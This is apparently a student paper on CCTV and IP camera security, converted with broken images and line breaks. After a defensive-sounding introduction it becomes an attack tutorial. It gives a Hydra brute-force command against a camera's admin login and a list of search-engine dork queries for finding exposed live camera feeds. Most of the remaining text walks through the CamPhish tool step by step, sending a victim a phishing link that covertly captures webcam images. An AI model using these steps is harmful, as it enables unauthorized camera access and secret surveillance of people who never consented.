


**Introduction**

CCTV camera use is becoming more and more widespread, especially for
security

purposes. Such surveillance tactics must be weighed against the privacy
rights of those

being watched, though. Closed-circuit TV, IP camera, and video
surveillance systems

have almost become pervasive and necessary for many enterprises,
organizations, and

people. Physical security, increased safety, and crime prevention are
their primary goals.

They also become more complicated, containing several communication
channels,

embedded hardware, and complicated firmware. The majority of research to
far, however,

has mostly addressed the privacy concerns of such systems and has not
sufficiently

addressed their problems with cyber-security in general and attacks on
the visual layer

> (i.e., imagery semantics) in particular.

Based on publicly accessible data, I undertake a thorough analysis of
the recent and

ongoing threats to IPcamera, closed-circuit TV, and video surveillance
systems in this

study. The information gained from these insights can subsequently be
utilized to better

comprehend and identify the security and privacy issues connected to the
creation,

distribution, and usage of these systems. When evaluating the
cyber-security level of

current or new CCTV designs and deployments, include both existing and
innovative

threats, along with their current or potential countermeasures, and
summarize this

> knowledge.
>
> I also offer some suggestions and defenses that can assist raise the
> security and privacy levels offered by the hardware, firmware, network
> communications, and operation of security camera systems. The research
> presented in this paper should help readers gain significant insight
> into the danger environment to which these systems are exposed. I also
> hope that it will encourage additional study and broaden the field\'s
> existing horizons. The use of CCTV surveillance is widespread and
> current in a wide range of contexts. The core component of a CCTV
> system is a human observer\'s accurate image interpretation, whose
> efficacy is impacted by a variety of factors.
>
> **Techniques for Cctv Camera Hacking**\
> Network vulnerabilities: Potential DVR, NVR, or IP camera assaults a)
> Password disruption due to a man in the middle.
>
> b\) Brute-force attacks\
> c) The dictionary attack, which involves using a string of words as a
> password.
>
> d\) Making use of security holes in services (like web servers) e)
> Denial of Service attack (many concurrent requests for connections).
>
> f\) Social engineering (information gathering through other people) g)
> Network inspection and manufacturer default usage passwords.
>
> h\) Invasion by viruses designed specifically for these gadgets.
>
> i\) Previous technicians, personnel, or other individuals undermine
> the system.
>
> You can use Hydra for Linux/Windows and you need to have your password
> file ready with the words you want to use. (Hydra is used to crack the
> password in the brute force manner )\
> Use the command:\
> hydra -s 88 -l admin -P /root/desktop/pass.txt -e ns\
> Where, \
> 1. s88 -\> the port number on the IP camera. \
> 2. l admin -\> default login name that will be used (admin). \
> 3. p /root/desktop/pass.txt -\> your password list file.  e -\> empty
> password. 4. ns -\> try login and empty password.
>
> **How to acquire the IP camera information:**\
> You can hack a camera such a Hikvision Camera by simply sending a
> command that retrieves the camera\'s information or by taking a
> screenshot. This is another approach to exploit firmware.
>
> CCTV Camera Code List\
>  inurl:/view.shtml\
>  inurl view index.shtml\
>  inurl view index.shtml near me\
>  inurl:ViewerFrame?Mode=\
>  inurl:ViewerFrame?Mode=Refresh\
>  inurl:view/index.shtml\
>  inurl:view/view.shtml\
>  intitle:"live view" intitle:axis\
>  intitle:liveapplet\
>  intitle:axis intitle:"video server"\
>  inurl /view/index.shtml school\
>  inurl view index shtml cctv
>
> The toll widely used to is : Camp Pish\
> Github: [https://github.com/techchipnet/CamPhish.git]{.underline}\
> CamPhish is techniques to take cam shots of target\'s phone front
> camera or PC webcam. CamPhish Hosts a fake website on in built PHP
> server and uses ngrok & serveo to generate a link which we will
> forward to the target, which can be used on over internet. website
> asks for camera permission and if the target allows it, this tool grab
> camshots of target\'s device
>
> In this tool two automatic webpage templates for engaged target on
> webpage to get more picture of cam
>
> Festival Wishing\
> Live YouTube TV\
> Online Meeting \[Beta\]
>
> simply enter festival name or youtube\'s video ID\
> Step1) install git and openssh\
> Step2 ) git clone
> [https://github.com/techchipnet/CamPhish.git]{.underline}

{width="5.991666666666666in"
height="3.35in"}

> Step3 ) Navigate to Camphish folder and run campish.sh file by bash
> camphish.sh
>
> {width="5.991666666666666in"
> height="3.2999989063867017in"}

{width="5.998611111111111in"
height="3.116665573053368in"}

> Home page of Camphish
>
> Step 4: Chose 2 and enter id youtube video
>
> {width="5.9944444444444445in"
> height="3.359721128608924in"}
>
> Step 5 : Let all setting to be default (hit enter until you get
> Starting serveo)
>
> Step 6: share the dirct link to victam

{width="5.998611111111111in"
height="3.3333333333333335in"}

> Step 7 ) You will get the cam file recived (press Ctrl+c to end
> session )
>
> {width="6.0in"
> height="3.3125in"}
>
> Step 8) Recived Images will be stored in the Camphish folder

{width="5.991666666666666in"
height="3.1805555555555554in"}

> Captured Images

{width="6.0in"
height="3.1666666666666665in"}
